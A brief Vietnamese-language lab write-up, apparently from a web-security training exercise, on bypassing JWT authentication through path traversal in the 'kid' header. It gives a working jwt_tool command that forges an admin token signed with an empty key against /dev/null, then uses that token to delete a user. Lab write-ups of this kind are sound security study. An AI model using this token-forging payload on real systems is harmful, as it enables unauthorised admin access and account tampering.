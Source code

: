## JWT authentication bypass via kid header path traversal

1. Dùng path traversal cho `kid` param trỏ đến file `/dev/null` là một file rỗng trên filesystem linux.

2. Dùng `jwt_tool` để craft token mới 
- Payload: ``python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""``

![image](https://user-images.githubusercontent.com/80744099/226424504-d48fc0af-1d76-4709-bf63-5e4815447d65.png)
![image](https://user-images.githubusercontent.com/80744099/226424736-2f112e71-ba23-44e7-8c03-2fa06797d833.png)

![image](https://user-images.githubusercontent.com/80744099/226423380-c7b4d8bd-73e7-48c3-9f56-cb1407689c14.png)

3. Gán token vào session cookie vào trang admin rồi xóa user carlos

![image](https://user-images.githubusercontent.com/80744099/226423593-6a7ac2fb-d06e-4fc5-9af8-7afedc920bb4.png)
